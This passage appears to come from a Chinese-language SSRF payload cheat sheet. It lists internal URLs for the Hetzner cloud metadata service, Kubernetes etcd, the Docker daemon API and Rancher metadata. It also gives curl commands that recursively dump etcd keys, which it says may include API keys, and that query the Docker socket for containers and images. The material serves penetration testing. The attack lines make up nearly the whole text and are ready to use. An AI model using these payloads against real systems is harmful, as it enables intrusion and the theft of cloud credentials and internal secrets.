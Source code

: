 ## Hetzner Cloud 的 SSRF URL

```powershell
http://169.254.169.254/hetzner/v1/metadata
http://169.254.169.254/hetzner/v1/metadata/hostname
http://169.254.169.254/hetzner/v1/metadata/instance-id
http://169.254.169.254/hetzner/v1/metadata/public-ipv4
http://169.254.169.254/hetzner/v1/metadata/private-networks
http://169.254.169.254/hetzner/v1/metadata/availability-zone
http://169.254.169.254/hetzner/v1/metadata/region
```

## Kubernetes ETCD 的 SSRF URL

可能包含API密钥和内部IP和端口

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

## Docker 的 SSRF URL

```powershell
http://127.0.0.1:2375/v1.24/containers/json

简单示例
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

更多信息：

* 守护进程套接字选项: [https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option](https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option)
* Docker 引擎API: [https://docs.docker.com/engine/api/latest/](https://docs.docker.com/engine/api/latest/)

## Rancher 的 SSRF URL

```powershell
curl http://rancher-metadata/<version>/<path>
```

更多信息: [https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/](https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/)

## 参考文献

* [通过SSRF在Google收购中提取AWS元数据 - tghawkins - 2017年12月13日](https://web.archive.org/web/20180210093624/https://hawkinsecurity.com/2017/12/13/extracting-aws-metadata-via-ssrf-in-google-acquisition/)
* [利用AWS Elastic Beanstalk中的SSRF - Sunil Yadav - 2019年2月1日](https://notsosecure.com/exploiting-ssrf-aws-elastic-beanstalk)